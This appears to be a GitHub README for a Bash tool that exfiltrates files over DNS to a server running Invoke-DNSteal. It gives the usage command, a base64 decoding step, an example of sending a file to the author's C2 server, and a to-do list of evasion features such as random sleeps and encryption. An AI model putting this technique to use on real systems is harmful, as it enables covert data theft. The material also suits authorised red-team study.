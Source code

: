 # adet: Another DNS Exfiltration Tool
Bash script for DNS file exfiltration using Invoke-DNSteal in server side.

# Instructions:
1. Run [Invoke-DNSteal.py](https://github.com/JoelGMSec/Invoke-DNSteal ) in your DNS server
2. Use:
```
./adet.sh <file> <domain>
```
3. Decode the received file in base64
```
base64 -d <received_file>
```

Example: Sending [byp4xx.py](https://github.com/lobuhi/byp4xx/blob/main/byp4xx.py) to my own customized C2/DNS server 
![](dnsteal.jpg)

# TO-DO:
 - Add random sleep option
 - Add random domain when DNS server is specified
 - Add byte length option
 - Add TCP option
 - Add encryption? Why not?
